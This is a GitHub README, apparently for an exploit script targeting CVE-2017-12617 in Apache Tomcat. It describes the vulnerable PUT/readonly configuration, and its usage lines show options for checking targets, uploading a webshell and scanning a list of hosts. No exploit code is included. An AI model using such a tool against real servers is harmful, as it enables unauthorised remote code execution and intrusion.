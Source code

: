 # CVE-2017-12617
CVE-2017-12617 critical Remote Code Execution (RCE) vulnerability discovered in Apache Tomcat 


<p>affect systems with HTTP PUTs enabled (via setting the "read-only" initialization parameter of the Default servlet to "false") are affected.

<p>Tomcat versions before 9.0.1 (Beta), 8.5.23, 8.0.47 and 7.0.82 contain a potentially dangerous 
<p>remote code execution (RCE) vulnerability on all operating systems if the default servlet is 
<p>configured with the parameter readonly set to false or the WebDAV servlet is enabled with the 
<p>parameter readonly set to false

# Apache Tomcat  page


<br>./cve-2017-12617.py [options]

<br>options:

<br>-u ,--url [::] check target url if it's vulnerable 
<br>-p,--pwn  [::] generate webshell and upload it
<br>-l,--list [::] hosts list

<br>[+]usage:

<br>./cve-2017-12617.py -u http://127.0.0.1
<br>./cve-2017-12617.py --url http://127.0.0.1
<br>./cve-2017-12617.py -u http://127.0.0.1 -p pwn
<br>./cve-2017-12617.py --url http://127.0.0.1 -pwn pwn
<br>./cve-2017-12617.py -l hotsts.txt
<br>./cve-2017-12617.py --list hosts.txt


<br><h2>Banner</br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/banner.PNG)

![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/1.PNG)
<br><h3>Check target if it's vulneabel </br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/44.PNG)
<br><h3> Confirm file was  created </br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/2.PNG)
<br><h3> Create Webshell and get shell
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/3.PNG)
<br><h3> Scan hosts in txt file<br>
![alt text](https://github.com/cyberheartmi9/CVE-2017-12617/blob/master/screenshots/5.PNG)









<h1> <h1> [ @intx0x80 ]



